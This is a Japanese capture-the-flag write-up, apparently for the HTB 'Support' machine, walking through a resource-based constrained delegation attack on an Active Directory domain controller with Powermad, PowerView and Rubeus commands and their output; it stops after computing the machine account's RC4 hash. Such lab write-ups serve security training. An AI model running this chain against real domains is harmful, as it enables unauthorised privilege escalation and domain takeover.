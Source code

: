 Shared Support Accountsというグループのメンバは、コンピュータdc.support.htbに対してGeneric All：

![alltodc](https://user-images.githubusercontent.com/85237728/194805252-d9fdfd2a-b0eb-41cf-956a-2cd91852b170.png)

```
*Evil-WinRM* PS C:\Users\support> Get-DomainController | select name

Name
----
dc.support.htb
```

このGeneric Allとはフルコントロールを意味する。

コンピュータオブジェクトをフルコントロールできる時、resource based constrained delegationアタックという攻撃手法がある。

（HTBのSupportを例にする）

[Powermad.ps1](https://github.com/Kevin-Robertson/Powermad)の`New-MachineAccount`で、新しくコンピュータアカウントを作成する：

```
*Evil-WinRM* PS C:\Users\support> . .\Powermad.ps1
*Evil-WinRM* PS C:\Users\support> New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
[+] Machine account attackersystem added
```
コンピュータアカウントが作成されたことを確認

```
*Evil-WinRM* PS C:\Users\support> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support> Get-DomainComputer | select name

name
----
DC
MANAGEMENT
attackersystem
```

新規作成したコンピュータアカウントのSIDを取得する：

```
*Evil-WinRM* PS C:\Users\support> $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support> $ComputerSid
S-1-5-21-1677581083-3380853377-188903654-5101
```

この新規コンピュータアカウントのSIDを用いてACEの設定をする。
```
*Evil-WinRM* PS C:\Users\support> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
*Evil-WinRM* PS C:\Users\support> $SD


ControlFlags           : DiscretionaryAclPresent, SelfRelative
Owner                  : S-1-5-32-544
Group                  :
SystemAcl              :
DiscretionaryAcl       : {System.Security.AccessControl.CommonAce}
ResourceManagerControl : 0
BinaryLength           : 80
```

そして、新たなDACL/ACEに対するバイナリを取得しておく：

```
*Evil-WinRM* PS C:\Users\support> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support> $SD.GetBinaryForm($SDBytes, 0)
```

[Security Descriptor, DACL, ACEについて](https://tech.blog.aerie.jp/entry/2017/12/19/104346)

作成したこのセキュリティ記述子（Security Descriptor）を、ターゲットであるコンピュータアカウントdcの「msDS-AllowedToActOnBehalfOfOtherIdentity」という属性に設定する：

```
dc.support.htb
*Evil-WinRM* PS C:\Users\support> Get-DomainComputer | select name

name
----
DC
MANAGEMENT
attackersystem

# 属性がセットされていないことを確認
*Evil-WinRM* PS C:\Users\support> Get-DomainComputer dc | select name,msds-allowedtoactonbehalfofotheridentit

name msds-allowedtoactonbehalfofotheridentit
---- ---------------------------------------
DC

*Evil-WinRM* PS C:\Users\support> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

最初に作成したコンピュータアカウントattackersystemのパスワードのRC4_HMAC形式を得るために[Rubeus.exe](https://github.com/GhostPack/Rubeus)を使う。

（Rubeus.exeのバイナリは[ここ](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)から）

```
*Evil-WinRM* PS C:\Users\support> .\Rubeus.exe hash /password:Summer2018!

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Calculate Password Hash(es)

[*] Input password             : Summer2018!
[*]       rc4_hmac             : EF266C6B963C0BB683941032008AD47F
```

